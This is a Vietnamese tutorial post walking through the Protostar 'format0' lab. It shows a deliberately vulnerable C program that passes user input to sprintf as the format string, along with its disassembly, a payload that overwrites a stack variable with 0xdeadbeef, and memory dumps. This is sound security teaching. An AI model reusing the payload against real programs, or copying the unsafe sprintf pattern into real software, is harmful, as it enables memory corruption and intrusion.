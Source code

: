 ```yaml
---
layout: post
title: format0
---
```


Trong bài này, chúng ta sẽ tìm hiểu một cách exploit mới dựa vào formatted string (chuỗi được định dạng). Formatted string được dùng khá nhiều trong C/C++ với các hàm như `printf` and `sprintf`. Các hàm này là kiểu hàm có số lượng tham số không cố định (variable arguments, hay varargs) và có thể thay đổi giá trị trên bộ nhớ, do đó, nếu không được dùng đúng cú pháp sẽ khiến bộ nhớ bị thay đổi trái với mong đợi và dẫn tới nhiều hậu quả.

Sau đây là source code và asm code của chương trình format0.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
```asm
0x080483f4 <vuln+0>:    push   ebp
0x080483f5 <vuln+1>:    mov    ebp,esp
0x080483f7 <vuln+3>:    sub    esp,0x68
0x080483fa <vuln+6>:    mov    DWORD PTR [ebp-0xc],0x0
0x08048401 <vuln+13>:   mov    eax,DWORD PTR [ebp+0x8]
0x08048404 <vuln+16>:   mov    DWORD PTR [esp+0x4],eax
0x08048408 <vuln+20>:   lea    eax,[ebp-0x4c]
0x0804840b <vuln+23>:   mov    DWORD PTR [esp],eax
0x0804840e <vuln+26>:   call   0x8048300 <sprintf@plt>
0x08048413 <vuln+31>:   mov    eax,DWORD PTR [ebp-0xc]
0x08048416 <vuln+34>:   cmp    eax,0xdeadbeef
0x0804841b <vuln+39>:   jne    0x8048429 <vuln+53>
0x0804841d <vuln+41>:   mov    DWORD PTR [esp],0x8048510
0x08048424 <vuln+48>:   call   0x8048330 <puts@plt>
0x08048429 <vuln+53>:   leave
0x0804842a <vuln+54>:   ret
0x0804842b <main+0>:    push   ebp
0x0804842c <main+1>:    mov    ebp,esp
0x0804842e <main+3>:    and    esp,0xfffffff0
0x08048431 <main+6>:    sub    esp,0x10
0x08048434 <main+9>:    mov    eax,DWORD PTR [ebp+0xc]
0x08048437 <main+12>:   add    eax,0x4
0x0804843a <main+15>:   mov    eax,DWORD PTR [eax]
0x0804843c <main+17>:   mov    DWORD PTR [esp],eax
0x0804843f <main+20>:   call   0x80483f4 <vuln>
0x08048444 <main+25>:   leave
0x08048445 <main+26>:   ret
```

Hàm đầu tiên được xem xét trong bài này là `sprintf`. Hàm này có tham số đầu tiên là một biến (pointer), tiếp theo là một formatted string, theo sau đó là các tham số để thay vào formatted string. `sprintf` hoạt động bằng cách phân tích formatted string đưa vào, sau đó sinh ra một chuỗi mới sẽ được lưu vào biến tham số.

Tương tự như trong các bài về exploit stack trước đây.
1. Biến `target` được lưu trên stack với địa chỉ `ebp - 0xc`. Biến này có 4 byte.
2. Biến `buffer` được lưu trên stack với địa chỉ `ebp - 0x4c`. Biến này có 64 byte.

2 biến này lắm kề này trên stack. Do đó, về cơ bản, chúng ta sẽ cần một formatted string có thể sinh ra 68 byte, trong đó 4 byte cuối sẽ chứa giá trị mong muốn của `target`. Để exploit format0, formatted string sẽ như sau.

```bash
python -c "print '%064d\xef\xbe\xad\xde'"
```

Chuỗi sinh ra từ formatted string này sẽ gồm 64 ký tự như mong muốn (bản chất là dang số nguyên với các số 0 phía trước) và 4 byte cuối là 4 byte cần cho `target`.
Sau đây là bộ nhớ bắt đầu từ `esp`. Phân biệt theo màu <span style="color:springgreen">tham số sẽ dùng cho hàm sprintf</span>, <span style="color:aqua">buffer</span> và <span style="color:orangered">target</span>.

<pre class="memory">
0xbffff700:     <span style="color:springgreen">0xbffff71c</span>      <span style="color:springgreen">0xbffff978</span>      <span style="color:springgreen">0x080481e8</span>      0xbffff798
0xbffff710:     0xb7fffa54      0x00000000      0xb7fe1b28      <span style="color:aqua">0x00000001</span>
0xbffff720:     <span style="color:aqua">0x00000000</span>      <span style="color:aqua">0x00000001</span>      <span style="color:aqua">0xb7fff8f8</span>      <span style="color:aqua">0xb7f0186e</span>
0xbffff730:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0xb7ec6165</span>      <span style="color:aqua">0xbffff748</span>      <span style="color:aqua">0xb7eada75</span>
0xbffff740:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08049624</span>      <span style="color:aqua">0xbffff758</span>      <span style="color:aqua">0x080482ec</span>
0xbffff750:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x08049624</span>      <span style="color:aqua">0xbffff788</span>      <span style="color:orangered">0x00000000</span>
0xbffff760:     0xb7fd8304      0xb7fd7ff4      0xbffff788      0x08048444
</pre>

<pre class="memory">
0xbffff700:     <span style="color:springgreen">0xbffff71c</span>      <span style="color:springgreen">0xbffff978</span>      <span style="color:springgreen">0x080481e8</span>      0xbffff798
0xbffff710:     0xb7fffa54      0x00000000      0xb7fe1b28      <span style="color:aqua">0x30303030</span>
0xbffff720:     <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>
0xbffff730:     <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>
0xbffff740:     <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>
0xbffff750:     <span style="color:aqua">0x31303030</span>      <span style="color:aqua">0x31353433</span>      <span style="color:aqua">0x38323133</span>      <span style="color:orangered">0xdeadbeef</span>
0xbffff760:     0xb7fd8300      0xb7fd7ff4      0xbffff788      0x08048444
</pre>

Chúng ta đã sử dụng đến 3 tham số cho hàm `sprintf`. Tham số đầu tiên lưu tại `esp` là địa chỉ của biến `buffer`, tham số thứ 2 là địa chỉ của formatted string, và tham số thứ 3 là số dạng int sẽ được thay thế vào formatted string. Kiểm tra memory cho thấy sự trùng khớp giữa số int dạng byte là `0x080481e8` và số in ra dạng decimal có 0 phía trước sẽ là `0000000000000000000000000000000000000000000000000000000134513128`.

## Ref
```bash
user@protostar:~$ format0 $(python -c "print '%064d\xef\xbe\xad\xde'")
you have hit the target correctly :)
```
